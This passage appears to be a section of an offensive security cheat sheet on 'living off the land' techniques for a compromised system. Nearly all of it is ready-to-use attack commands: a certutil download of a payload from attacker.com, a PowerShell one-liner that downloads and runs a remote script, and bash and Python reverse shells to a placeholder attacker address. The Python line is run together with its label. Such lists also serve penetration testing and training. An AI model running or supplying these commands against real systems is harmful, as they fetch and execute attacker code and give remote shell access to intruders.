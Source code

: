 ### 6.6 Living Off The Land (LOLBAS/LOLBINS)
    :- (These are highly dependent on the compromised system)
    
    :- Download file (Windows)
    certutil -urlcache -split -f http://attacker.com/payload.exe C:\temp\payload.exe 
    
    :- PowerShell download & exec
    powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/ps_script.ps1')" 
    
    :- Bash reverse shell
    bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
    
    :- Python reverse shellpython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.
    dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 